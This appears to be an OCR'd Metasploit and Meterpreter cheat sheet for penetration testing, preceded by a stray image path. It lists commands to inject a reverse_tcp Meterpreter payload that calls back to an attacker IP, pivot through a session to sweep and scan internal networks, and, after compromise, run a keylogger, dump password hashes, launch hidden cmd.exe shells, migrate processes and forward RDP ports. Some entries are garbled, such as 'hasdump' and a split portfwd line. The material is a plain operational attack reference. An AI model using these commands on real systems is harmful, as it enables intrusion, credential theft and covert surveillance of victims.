 
START MSF DB (BT5 = MYSQL , KALI = POSTGRESQL)
/etc/rc.d/rc.mysqld start
msf db_create root:pass@localhost/metasploit 
msf load db_mysql
msf db_connect root:pass@localhost/metasploit 
msf db_import nmap.xml

--- Kali ---
# service postgresql start 
# service metasploit start


PASS A SHELL (BY DEFAULT WILL LAUNCH NOTEPAD AND INJECT)

msf use post/windows/manage/multi_meterpreter_inject
msf set IPLIST attack ip
msf set LPORT callback port
msf set PIDLIST PID to inject, default creates new notepad
msf set PAYLOAD windows/meterpreter/reverse_tcp
msf set SESSION meterpreter session ID


HTTP BANNER SCAN ON INTERNAL NETWORK

msf route add ip/range	netmask meterpreter ID
msf use post/multi/gather/ping_sweep	# Set options and run
msf use /auxiliary/scanner/portscan/tcp # Set options and run
msf hosts -u -S x.x.x -R		# Searches for x.x.x. and sets
					# RHOSTS
msf use auxiliary/scanner/http/http_version	# Set options and run
msf services -v -p 80 -S x.x.x -R	# Displays IPs x.x.x.' with port
					# 80 open


METERPRETER
		
help                                  List available commands
sysinfo                               Display system info
ps                                    List processes
getpid                                List current PID
upload file C:\\Program\ Files\\      Upload file
download file                         Download file
reg command                           Interact with registry
rev2self                              Revert to original user
shell                                 Drop to interactive shell
migrate	PID                           Migrate to another PID
background                            Background current session
keyscan_(start|stop|dump)             Start/Stop/Dump keylogger
execute -f cmd.exe -i                 Execute cmd.exe and interact
execute -f cmd.exe -i -H -t           Execute cmd.exe as hidden process                                             and with all tokens
hasdump                               Dumps local hashes
run script                            Executes script
                                      (/scripts/meterpreter)
portfwd	[add|delete]-L 127.0.0.1 -1   Port forward 3389 through session.
443 -r 3.3.3.3 -p 3389                Rdesktop to local port 443
